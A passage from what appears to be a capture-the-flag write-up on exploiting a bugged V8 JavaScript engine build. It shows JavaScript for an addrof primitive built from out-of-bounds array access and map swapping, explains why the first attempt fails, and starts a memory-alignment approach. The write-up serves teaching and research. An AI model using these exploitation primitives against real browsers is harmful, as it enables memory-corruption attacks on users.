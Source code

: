 In our current scenario, you could argue that we can reuse this (with minor modifications) and get this:

```javascript
var float_arr = [1.5, 2.5];
float_arr.setHorsepower(3);
var map_float = float_arr[2];

var initial_obj = {a:1};	// placeholder object
var obj_arr = [initial_obj];
obj_arr.setHorsepower(2);
var map_obj = obj_arr[1];

function addrof(obj) {
    obj_arr[0] = obj;			// put desired obj for address leak into index 0
    obj_arr[1] = map_float;		// change to float map
    let leak = obj_arr[0];		// read address
    obj_arr[1] = map_obj;		// change back to object map, to prevent issues down the line
    return ftoi(leak);			// return leak as an integer
}
```

However, this does **not** work. Why? It's the difference between these two lines:

```javascript
var map_obj = obj_arr.oob();
var map_obj = obj_arr[1];
```

In oob-v8, we noted that the function `.oob()` not only reads an index past the end, but it also **returns it as a double**. And that's the key difference - in this challenge, we can read past the end of the array, but this time it's **treated as an object**. `obj_arr[1]` will, therefore, return an object - and a pretty invalid one, at that!

You might be thinking that we don't **need** the object map to get an `addrof` primitive at all, we just can't set the map back, but we can create a one-use array. I spent an age working out why it didn't work, instead returning a `NaN`, but of course it was this line:

```javascript
obj_arr[1] = map_float;
```

Setting the map to that of a float array would never work, as it would treat the first index like an object again!

## A new addrof()

So, this time we can't copy the object map so easily. But not all is lost! Instead of having a single OOB read/write, we can set the array to have a huge `length`. This way, we can use an OOB on the float array to read the map of the object array - if we set it correctly, that is.

### Aligning Memory

Let's create two arrays, one of floats and one of objects. We'll also grab the float map (which will also contain the `properties` pointer!) while we're at it.
